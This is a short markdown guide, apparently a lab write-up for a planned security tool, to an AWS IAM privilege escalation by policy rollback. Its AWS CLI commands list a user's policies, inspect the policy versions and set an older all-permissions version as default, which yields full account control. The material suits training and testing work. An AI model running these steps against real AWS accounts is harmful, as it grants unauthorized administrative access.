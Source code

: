 # Privilege Escalation Scenarios

This document is meant to serve as a guide to a few techniques that will be latter implemented in the Tool.

## IAM_PRIV_ESC_BY_ROLLBACK

- list user policies
    ```
    aws iam list-attached-user-policies --user-name raynor-iam_privesc_by_rollback_cgidiquto2hmot
    ```
- Get the policy data
    ```
    aws iam get-policy --policy-arn arn:aws:iam::601904299386:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidiquto2hmot
    ```
- Get the policy content
    ```
    aws iam get-policy-version --policy-arn arn:aws:iam::601904299386:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidiquto2hmot --version-id v1
    ```
When we check this policy version, we can see that we have the **iam:SetDefaultPolicyVersion** permission. With this permission, we can update the policy version to another version, which can have differente permissions.
We then check another version of the policy to see if we can use this somehow.

- Check policy for another version:
    ```
    aws iam get-policy-version --policy-arn arn:aws:iam::601904299386:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidiquto2hmot --version-id v2
    ```
We can see that the **v2** policy has the *\* permissions.

- Update policy:
    ```
    aws iam set-default-policy-version --policy-arn arn:aws:iam::601904299386:policy/cg-raynor-policy-iam_privesc_by_rollback_cgidiquto2hmot --version-id v2
    ```

By doing this, we have achive full permissions on the environment.
